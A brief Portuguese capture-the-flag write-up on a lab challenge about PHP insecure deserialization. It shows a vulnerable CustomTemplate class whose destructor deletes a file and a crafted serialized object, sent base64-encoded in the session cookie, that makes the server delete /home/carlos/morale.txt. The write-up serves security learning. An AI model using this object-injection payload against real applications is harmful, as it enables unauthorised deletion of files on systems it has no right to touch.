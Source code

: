 #ctf 

Objeto serializado em PHP encontrado no cookie:

```PHP
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"sos9fte5u3wo7hhzqhg9psrmouz7jc8a";}
```

Existe um comentário no HTML que nos leva para `/libs/CustomTemplate.php`

```PHP
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

O `__destruct()` é um método mágico chamado quando um objeto é deletado. Criando um objeto serializado dessa classe:

```PHP
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Basta converter para base64 e passar no cookie de sessão. GG